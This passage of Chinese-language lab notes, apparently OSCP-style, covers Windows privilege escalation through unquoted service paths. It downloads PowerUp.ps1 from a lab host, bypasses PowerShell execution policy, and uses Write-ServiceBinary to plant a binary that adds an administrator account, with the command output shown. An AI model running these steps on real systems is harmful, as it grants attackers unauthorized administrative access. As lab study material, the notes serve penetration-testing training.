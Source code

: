 ```
daveadmin
offsec
The command completed successfully.
```
> user dave2 成功被新增
> 可用 Administrator (dave2) 登入

#### 6. [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) automated tool
一樣將 `ExecutionPolicy` 設定為 Bypass 並使用 `Get-UnquotedService`
```
PS C:\Users\steve> iwr http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\steve> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\steve> . .\PowerUp.ps1

PS C:\Users\steve> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService
...
```
> GammaService 被識別為存在漏洞

使用 AbuseFunction 並重新啟動服務\
將惡意程式 Current.exe 放置在 `C:\Program Files\Enterprise Apps\`
```
PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...

PS C:\Users\steve> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir